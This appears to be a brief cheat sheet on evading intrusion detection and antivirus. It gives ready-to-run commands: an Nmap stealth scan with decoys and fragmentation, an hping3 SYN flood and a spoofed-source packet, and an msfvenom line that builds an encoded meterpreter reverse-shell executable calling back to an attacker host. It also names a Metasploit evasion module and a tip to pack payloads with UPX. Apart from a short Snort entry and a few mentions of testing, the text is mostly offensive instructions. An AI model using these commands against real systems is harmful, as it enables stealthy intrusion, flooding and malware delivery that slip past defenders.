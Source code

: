 1. Nmap (with IDS Evasion Options)
Purpose: Scan networks while avoiding detection by IDS/firewalls.

	Useful Options:

	nmap -sS -T2 -D RND:10 -f -oN stealth_scan.txt target_ip

Flag breakdown:
•
-sS: Stealth SYN scan
•
-T2: Slow scan timing (evade rate-based alerts)
•
-D RND:10: Use 10 random decoys
•
-f: Fragment packets (makes detection harder)
•
--data-length: Pads packets with junk data
Best for: Testing firewall and IDS rules.



2. Hping3 (Custom Packets for Firewall Bypass)
Purpose: Send crafted packets to probe/firewall-bypass specific ports.

Example: Send TCP packet with SYN flag
hping3 -S -p 80 --flood target_ip

	To spoof IP:

	hping3 -S -p 22 -a 1.2.3.4 target_ip

Use Case: Check which packets pass through stateless firewalls or simulate port scans.



3. Metasploit Evasion Techniques
Purpose: Evade antivirus/IDS when delivering payloads.

	Use encoders (e.g., shikata_ga_nai):

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe


	Evasion Module:

	use evasion/windows/meterpreter/bindshell_hidden

Tip: Combine with packing tools (UPX) or obfuscators.



4. Snort (for Lab Testing/Detection)
Purpose: Open-source IDS – simulate and test your evasion techniques.

	Run in packet capture mode:

	snort -A console -i eth0 -c /etc/snort/snort.conf

Good for:
•
Signature rule writing
•
Observing evasion attempt detection